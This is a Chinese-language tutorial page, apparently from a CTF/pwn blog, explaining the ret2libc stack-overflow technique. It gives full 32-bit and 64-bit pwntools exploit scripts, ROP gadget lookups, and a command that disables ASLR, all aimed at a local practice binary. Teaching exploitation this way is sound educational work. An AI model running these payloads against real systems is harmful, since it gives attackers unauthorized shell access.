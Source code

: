```yaml
---
title: 'ret2libc'
date: '2023-08-18'
lastmod: '2023-08-18'
tags: ['PWN', 'Stack']
draft: false
summary: '标准 ROP 漏洞利用'
authors: ['default']
---
```


<div className="border-solid border-2 border-surface0 dark:border-surface0-dark p-2 bg-base dark:bg-base-dark mt-5">
  <TOCInline toc={props.toc} asDisclosure />
</div>

ret2libc 基于 C 标准库中的 `system` 函数。该函数会执行传递给它的任何内容，这使其成为最佳攻击目标。libc 中的另一个内容是字符串 `/bin/sh`；如果你将此字符串传递给 `system` 函数，它会弹出一个 shell。

这就是它的全部内容——将 `/bin/sh` 作为参数传递给 `system`。

<Download name="ret2libc.zip" href="/static/assets/ret2libc.zip" type="Binary" />

## 0x01 禁用 ASLR

首先，我们将禁用 ASLR。ASLR 随机化 libc 在内存中的地址，这意味着我们无法计算出 `system()` 和 `/bin/sh` 的位置。为了便于你理解一般理论，我们将从禁用它开始。

```bash
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
```

## 0x02 手动利用

### 1x01 获取 libc 地址

幸运的是 Linux 有一个名为 `ldd` 的命令用于动态链接。如果我们用它来查看编译好的 ELF 文件，它会告诉我们它使用的库及其地址。

```bash
$ ldd vuln-32
	  linux-gate.so.1 (0xf7eda000)
	  libc.so.6 => /usr/lib32/libc.so.6 (0xf7c00000)
	  /lib/ld-linux.so.2 => /usr/lib/ld-linux.so.2 (0xf7edd000)
```

`libc.so.6` 是我们需要的 libc 文件，所以 libc 的地址是 `0xf7c00000`。

<Note>
  `libc` 地址以及 `system()` 和 `/bin/sh` 的偏移量对你来说可能不同。这不是问题，它只是意味着你有不同的版本的 `libc`。
</Note>

### 1x02 获取 system() 的地址

为了调用 `system()`，我们肯定需要它在内存中的地址。为此，我们可以使用 `readelf` 命令。

```bash
$ readelf -s /usr/lib32/libc.so.6 | grep system
  3209: 0004f610    63 FUNC    WEAK   DEFAULT   13 system@@GLIBC_2.0
```

`-s` 参数告诉 `readelf` 查看当前 ELF 文件的符号表，符号表中的信息只包括 **全局变量和函数名**。这里我们可以发现 `system()` 距 `libc` 库的偏移量是 `0x4f610`。

### 1x03 获取 /bin/sh 的地址

由于 `/bin/sh` 只是一个字符串，因此我们可以在刚刚通过 `ldd` 找到的动态链接库的基础上使用 `strings` 指令。

<Important>
  当将字符串作为参数传递时，你需要传递指向字符串的 **地址**，而不是字符串的十六进制表示形式，因为这就是 C 语言所规定的方式。
</Important>

```bash
$ strings -a -t x /usr/lib32/libc.so.6 | grep /bin/sh
  1c4dcd /bin/sh
```

`-a` 告诉它扫描整个文件；`-t x` 告诉它以十六进制格式输出偏移量。

### 1x04 32-bit 漏洞利用

```python:exp.py showLineNumbers
from pwn import *

context(os='linux', arch='amd64', log_level='info')

p = process('./vuln-32')

libc_addr = 0xf7c00000
system_addr = libc_addr + 0x4f610
shell_addr = libc_addr + 0x1c4dcd

payload = b'A' * 76          # Padding 到 EIP
payload += p32(system_addr)  # system() 的地址
payload += p32(0x0)          # 避免异常
payload += p32(shell_addr)   # /bin/sh 的地址

p.sendline(payload)

p.interactive()
```

### 1x05 64-bit 漏洞利用

使用链接到 64-bit 程序的 `libc` 重复上述过程。

<Important>
  你必须使用 `pop rdi; ret` gadget 将其放入 RDI 寄存器中，而不是在返回地址之后传递参数。
</Important>

```bash
$ ROPgadget --binary vuln-64 | grep rdi
[...]
0x00000000004011cb : pop rdi ; ret
[...]
$ ROPgadget --binary vuln-64 | grep rsi
[...]
0x00000000004011c9 : pop rsi ; pop r15 ; ret
[...]
```

```python:exp.py showLineNumbers
from pwn import *

context(os='linux', arch='amd64', log_level='info')

p = process('./vuln-64')

libc_addr = 0x7ffff7c00000
system_addr = libc_addr + 0x4f760
shell_addr = libc_addr + 0x19fe34

POP_RDI, POP_RSI_R15 = 0x4011cb, 0x4011c9

payload = b'A' * 72          # Padding 到 RIP
payload += p64(POP_RDI)      # pop rdi ; ret
payload += p64(shell_addr)   # 传入 /bin/sh 的地址
payload += p64(POP_RSI_R15)  # pop rsi ; pop r15 ; ret
payload += p64(0x0) * 2      # 填充 rsi 和 r15
payload += p64(system_addr)  # 把 system() 的地址传入 RIP

p.sendline(payload)

p.interactive()
```

## 0x03 使用 pwntools 实现半自动

pwntools 拥有大量功能，使这一切变得更加简单。

```python:exp.py showLineNumbers
# 32-bit
from pwn import *

context(os='linux', arch='amd64', log_level='info')

elf = context.binary = ELF('./vuln-32')
p = process()

libc = elf.libc                             # 获取程序正在使用的 libc
libc.address = 0xf7c00000                   # 设置 libc 地址

system_addr = libc.sym['system']            # 获取 system() 的地址
shell_addr = next(libc.search(b'/bin/sh'))  # 获取 /bin/sh 的地址

payload = b'A' * 76                         # Padding 到 EIP
payload += p32(system_addr)                 # system() 的地址
payload += p32(0x0)                         # 避免异常
payload += p32(shell_addr)                  # /bin/sh 的地址

p.sendline(payload)

p.interactive()
```

64-bit 的半自动脚本本质上是一样的。

<Tip>
  如果题目提供了 libc ，也可以这样用：

  libc = ELF('libc.so.6')<br />
  print(libc.sym['system'])
</Tip>

<Note>
  pwntools 可以通过其 ROP 功能进一步简化它，但我不会在这里展示它们。
</Note>

